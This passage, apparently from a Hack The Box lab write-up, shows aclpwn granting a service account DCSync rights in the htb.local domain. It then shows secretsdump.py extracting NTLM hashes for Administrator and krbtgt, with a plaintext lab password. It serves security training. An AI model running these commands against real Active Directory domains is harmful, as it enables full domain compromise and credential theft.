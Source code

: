 ```

root@kali# aclpwn -f svc-alfresco -t htb.local --domain htb.local --server 10.10.10.161
Please supply the password or LM:NTLM hashes of the account you are escalating from: 
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 1
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user SVC-ALFRESCO to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
[+] Re-bind successful
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191019-215508.restore

```

### Dump Hashes

Now, I can run `secretsdump.py`:

```

root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...

```

### Shell
